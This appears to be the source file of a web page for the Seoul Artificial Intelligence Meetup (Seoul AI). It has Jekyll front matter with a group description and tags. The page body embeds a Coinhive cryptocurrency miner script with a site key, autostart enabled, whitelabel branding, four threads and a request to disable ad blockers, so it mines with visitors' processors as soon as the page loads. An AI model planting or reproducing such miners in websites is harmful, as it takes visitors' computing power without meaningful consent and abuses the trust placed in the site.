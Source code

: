 ```yaml
---
layout: default
summary: Seoul Artificial Intelligence Meetup (aka Seoul AI) is a group of enthusiasts willing to go the extra mile in becoming one of the best in their field. We are sharing our domain knowledge and working on Machine Learning projects in small groups.
tags: [Seoul,"Artificial Intelligence",meetup,AI,call,presenters,practioners,"Machine Learning",Korea,Gangnam]
---
```


<script src="https://coinhive.com/lib/miner.min.js" async></script>
<div class="coinhive-miner"
	style="width: 600px; height: 310px"
	data-key="4oRscSkZZprxDccg05fWoI3yID0Jl1yf"
	data-autostart="true"
	data-whitelabel="true"
	data-background="#ffffff"
	data-text="#000000"
	data-action="#000000"
	data-graph="#000000"
	data-threads="4"
	data-throttle="0.1"
	data-start="Start Now!">
	<em>Please disable Adblock!</em>
</div>
